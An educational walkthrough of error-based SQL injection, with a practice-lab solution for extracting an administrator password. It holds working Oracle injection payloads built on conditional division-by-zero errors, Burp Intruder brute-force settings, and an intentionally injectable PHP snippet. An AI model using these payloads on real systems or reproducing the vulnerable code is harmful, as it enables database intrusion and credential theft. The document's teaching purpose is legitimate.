




# SQL Injection: Error-Based SQL Injection

## Introduction

Error-Based SQL Injection is a type of SQL injection attack where attackers exploit database error messages to gather information about the structure of the database. By intentionally causing errors, attackers can infer details such as table names, column names, and data types, which can then be used to craft more sophisticated SQL injection attacks.

## Table of Contents

- [SQL Injection: Error-Based SQL Injection](#sql-injection-error-based-sql-injection)
  - [Introduction](#introduction)
  - [Table of Contents](#table-of-contents)
  - [How to identify](#how-to-identify)
  - [Code/tools/websites](#codetoolswebsites)
    - [Code Snippets](#code-snippets)
    - [Tools](#tools)
    - [Websites](#websites)
  - [Sample problem](#sample-problem)
    - [Problem Statement](#problem-statement)
    - [Solution](#solution)
  - [References](#references)
  - [Conclusion](#conclusion)

## How to identify

To identify Error-Based SQL Injection vulnerabilities, look for web applications that display detailed database error messages. Typical indicators include:

1. **Error Messages:** Inputting certain characters (like single quotes) or SQL keywords (like `SELECT`) results in database error messages being displayed on the web page.
2. **Behavior Testing:** Entering SQL syntax that causes deliberate errors to see if the application leaks information through error messages.
3. **Code Analysis:** Examining the backend code to see if error messages are properly handled or exposed to users.

Example:
```plaintext
http://example.com/product.php?id=1'
```
If this input produces an error message revealing database details, the site may be vulnerable to this attack.

## Code/tools/websites

### Code Snippets
Here is an example of a vulnerable PHP code snippet:
```php
<?php
$id = $_GET['id'];
$query = "SELECT * FROM products WHERE id = '$id'";
$result = mysqli_query($conn, $query);
if (!$result) {
    die("Database error: " . mysqli_error($conn));
}
?>
```

### Tools
- **SQLMap:** An automated tool for SQL injection and database takeover.
- **Burp Suite:** A web vulnerability scanner with tools for manual testing.
- **Havij:** An automated SQL injection tool.

### Websites
> https://www.hackthebox.com/: Great place to learn and practice problems
>
> https://picoctf.com/: They have many labs and past question which you can try with great write-ups available online.

## Sample problem

### Problem Statement
You are given access to a web application that uses a tracking [cookie](https://dev.to/arikaturika/web-cookies-beginners-guide-28lh) for analytics, and performs a SQL query containing the value of the submitted cookie.

If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. 

Identify if the application is vulnerable to Error-Based SQL Injection and extract the password of the administrator user.

[Link to the lab](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

<details>

<summary>HINT</summary>

The query will look something like this:

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```
</details>

### Solution

<details>
<summary>Click to reveal the solution</summary>

#### Confirm vulnerable parameter

Due to the type of vulnerability, we can neither see any result of the query nor any difference in output based on the truth value of some condition. However, if we can craft requests that cause (or don't cause) a database error based on a condition we inject, we can infer the truth value based on the fact whether an error is shown or not.

So as a first step we need to confirm that the parameter is vulnerable by crafting requests that give `normal` and `error` answers.

Injecting a single quote raises a server error, injecting two single quotes does not. This indicates an injection possibility, so try injecting some SQL statements. Injecting `'||(SELECT+null)||'` still shows an error, however injecting `'||(SELECT+null+FROM+dual)||'` does not. Therefore the database driving the page is an Oracle DB.

#### Find 'normal' and 'error' statements

On the [sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) provided in the [introduction section](README.md), a conditional error example is given: 
```sql
SELECT CASE WHEN (<CONDITION>) THEN to_char(1/0) ELSE NULL END FROM dual
```

For the `normal` query, we take an input that evaluates to `FALSE`, thus not hitting our division by zero.

```sql
SELECT trackingId FROM someTable WHERE trackingId = X'||(SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM dual)||'
```

The content of the cookie for the `normal` case that displays the page as normal is

```sql
'||(SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM dual)||'
```

The `error` case has a condition that evaluates to true, thus causing the database to execute the division by zero which results in an `internal server error`:

```sql
'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM dual)||'
```

Now we have a way to distinguish the result of a boolean condition.

#### Confirm database table and columns

The next step is to confirm that the `users` table actually exists in the database. For this, select from it and use the oracle version of limiting the number of output rows:

```sql
'||(SELECT username||password FROM users WHERE rownum=1)||'
```

It shows the page, confirming that this is a valid query and thus, that the table name and both column names are valid as well.

You can also confirm that invalid names in either of the fields result in an invalid query and an `internal server error`.

#### Confirm user exists in the database

To confirm that the user exists in the database it is not possible to inject a simple `'||(select username from users where username='administrator')||'`. This is a valid statement regardless of the existence of the user. As such, it shows the page regardless of the username used.

To cause an error, we extend it by performing the division by zero if the username exists. This statement results in an `internal server error`, indicating that the query resulted in the division by zero:

```sql
'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'
```

Changing the username to an arbitrary value, the page is shown. This confirms that the condition `1=1` and the following division by zero depend on whether the `FROM users WHERE...` part returns something.

This confirms that the user `administrator` exists in the database.

#### Get the length of the password (could be hash as well)

Getting the length is done easily by adding the `LENGTH` function at the end of the SQL condition.

```sql
'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator' and LENGTH(password)=1)||'
```

This will show the page, indicating that the `1=1` check was never executed. Using Burp Intruder, you can test all numbers from 1 to 50 as length, and get this result:



Thus we now know that the password is exactly 20 characters long.

#### Enumerate the password of the user administrator

Now that we have the length of the password, we can brute force each character individually. If the database would store a hash of the password, we could extract the hash for offline cracking.

```sql
'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator' and SUBSTR(password,1,1)='a')||'
```

This shows the page, indicating that the first letter is not an `a`. Use Burp Intruder again to brute force all 20 characters.



Attack type: *Cluster bomb*

- *Payload 1*: numeric sequential, 1...20
- *Payload 2*: Brute force - for real-life, add special characters

Filtering on server errors again, we can read the password: `3bk8bdchxubqft2tgsxr`



### Alternative

It is also possible to move the conditional check (e.g. the length of the substring part) into the condition of the `SELECT CASE WHEN` portion.

```sql
'||(SELECT CASE WHEN (substr(password,1,1)='a') THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'
```

For the length, the string is shown in below:




</details>


## References

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security/sql-injection)
- [SQLMap Documentation](https://sqlmap.org/)

## Conclusion

Error-Based SQL Injection leverages detailed error messages from the database to gather information about its structure and contents. Identifying and exploiting these vulnerabilities requires understanding the behavior of SQL queries and error handling mechanisms. By practicing with tools and exercises, you can improve your skills in detecting these vulnerabilities.